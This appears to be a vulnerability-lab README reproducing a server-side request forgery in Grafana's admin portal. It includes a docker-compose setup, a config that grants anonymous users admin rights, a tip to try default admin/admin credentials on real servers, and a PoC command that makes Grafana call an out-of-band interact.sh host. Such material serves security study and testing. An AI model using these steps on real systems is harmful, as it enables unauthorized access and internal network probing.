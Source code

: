 # Grafana Admin Portal SSRF

[中文版本（Chinese Version）](README.zh-cn.md)

Grafana is a multi-platform open source analytics and interactive visualization web application.

The admin user is able to make requests to an unintended location in all versions of Grafana.

References:

- <https://github.com/RandomRobbieBF/grafana-ssrf>

## Vulnerable environment

Execute following command to start a Grafana 8.5.4:

```
docker-compose up -d
```

Then you can see the portal page for Grafana without the authentication in `http://your-ip:3000`, because this server enabled the anonymous as admins by:

```ini
[auth.anonymous]
enabled = true
org_role = Admin
```

If Grafana ask you for user credentials in real world, can try default `admin` and `admin`.

## Vulnerability Reproduce

Use [this POC](https://github.com/RandomRobbieBF/grafana-ssrf) to reproduce the SSRF:

```
python grafana-ssrf.py -H http://your-ip:3000 -u http://example.interact.sh/attack
```

![](1.png)

As you can see, I got the request from Grafana:

![](2.png)

